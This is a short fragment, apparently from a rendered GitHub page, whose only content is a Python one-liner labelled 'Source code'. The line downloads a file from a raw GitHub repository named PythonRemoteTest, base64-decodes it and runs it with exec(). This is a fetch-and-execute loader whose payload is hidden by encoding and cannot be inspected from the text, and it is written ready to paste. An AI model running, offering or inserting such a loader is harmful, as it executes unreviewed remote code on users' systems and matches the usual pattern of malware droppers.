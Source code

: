 One-Liner: import requests; import base64; import json; data = requests.get('https://raw.githubusercontent.com/TheCodeFox-tech/PythonRemoteTest/main/Test.json'); exec(base64.b64decode(data.text).decode('utf-8'))
